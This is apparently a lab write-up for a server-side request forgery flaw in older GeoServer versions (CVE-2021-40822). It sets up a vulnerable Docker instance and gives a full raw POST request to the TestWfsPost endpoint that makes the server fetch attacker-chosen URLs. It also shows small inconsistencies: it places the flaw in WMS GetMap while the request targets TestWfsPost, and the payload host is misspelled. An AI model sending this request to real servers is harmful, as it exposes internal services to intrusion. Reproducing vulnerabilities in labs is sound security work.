

GeoServer Unauthenticated Server-Side Request Forgery (CVE-2021-40822)¶
GeoServer is an open-source software server written in Java that provides the ability to view, edit, and share geospatial data. It is designed to be a flexible, efficient solution for distributing geospatial data from a variety of sources such as Geographic Information System (GIS) databases, web-based data, and personal datasets.
In GeoServer versions prior to 2.19.3, 2.18.5, and 2.17.6, there is a Server-Side Request Forgery (SSRF) vulnerability in the WMS GetMap request. An attacker can exploit this vulnerability to make requests to internal or external services through the GeoServer server.
References:
- https://github.com/geoserver/geoserver/security/advisories/GHSA-7g5f-wrx8-5ccf
- https://nvd.nist.gov/vuln/detail/CVE-2021-40822
Vulnerable Environment¶
Execute the following command to start a GeoServer 2.19.1 server:
docker compose up -d
After the server is started, you can browse the default page of GeoServer at http://your-ip:8080/geoserver.
Exploit¶
The vulnerability exists in the TestWfsPost endpoint. An attacker can use the url parameter to make the server send requests to arbitrary URLs. The endpoint accepts several parameters:
url: The target URL that GeoServer will send request tobody: The request body to be sent. If this parameter is empty, GeoServer will send a GET request; if it contains any value, GeoServer will send a POST requestusername: Username for basic authentication (optional)password: Password for basic authentication (optional)
Send the following request to the TestWfsPost endpoint:
POST /geoserver/TestWfsPost HTTP/1.1
Host: internal
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 96
form_hf_0=&url=http://interal/geoserver/../&body=testtest&username=admin&password=admin
Use google.com as the target URL, and you will see that response from google.com is returned.

Note: The host in the
urlparameter must match theHostheader in your request, otherwise GeoServer will return an error. For example, if the domain inurlparameter isinternal, then theHostheader should also beinternal.